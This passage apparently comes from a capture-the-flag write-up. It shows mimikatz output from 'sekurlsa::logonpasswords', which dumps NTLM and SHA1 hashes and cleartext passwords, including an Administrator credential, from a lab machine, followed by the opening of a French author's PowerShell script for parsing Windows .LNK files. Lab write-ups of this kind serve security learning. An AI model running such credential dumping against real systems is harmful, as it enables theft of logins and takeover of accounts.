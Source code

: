 ```shellsession
mimikatz # sekurlsa::logonpasswords

Authentication Id : 0 ; 2843824 (00000000:002b64b0)
Session           : Interactive from 0
User Name         : security
Domain            : ACCESS
Logon Server      : ACCESS
Logon Time        : 10/12/2018 10:03:59 AM
SID               : S-1-5-21-953262931-566350628-63446256-1001
    msv :
     [00000003] Primary
     * Username : security
     * Domain   : ACCESS
     * NTLM     : b41db16a61cb04b231625de260163015
     * SHA1     : 75f1e3aa023a0f57d4225f3ab4f18f6fea025414
    tspkg :
     * Username : security
     * Domain   : ACCESS
     * Password : 4Cc3ssC0ntr0ller
    wdigest :
     * Username : security
     * Domain   : ACCESS
     * Password : 4Cc3ssC0ntr0ller
    kerberos :
     * Username : security
     * Domain   : ACCESS
     * Password : 4Cc3ssC0ntr0ller
    ssp :
    credman :
     [00000000]
     * Username : ACCESS\Administrator
     * Domain   : ACCESS\Administrator
     * Password : 55Acc3ssS3cur1ty@megacorp
     [00000001]
     * Username : access\engineer
     * Domain   : access\engineer
     * Password : (null)
```

PowerShell Parse-LnkFile is good for you
----------------------------------------

C'est mon premier script PowerShell, tout commentaire est le bienvenue :  

```plain
function Parse-LnkFile{
<#
    .SYNOPSIS

        Parse-LnkFile extracts several informations from a Windows .LNK file.

    .DESCRIPTION

        Returns an object with several informations about a .LNK file : .LNK path on the disk, path of the target, arguments for that target and whether the target is on disk or not.

    .PARAMETER
        A FileInfo object for a .LNK file or a path (string).

    .AUTHOR
        Nicolas SURRIBAS aka devloop

    .LINK
        http://devloop.users.sourceforge.net/
```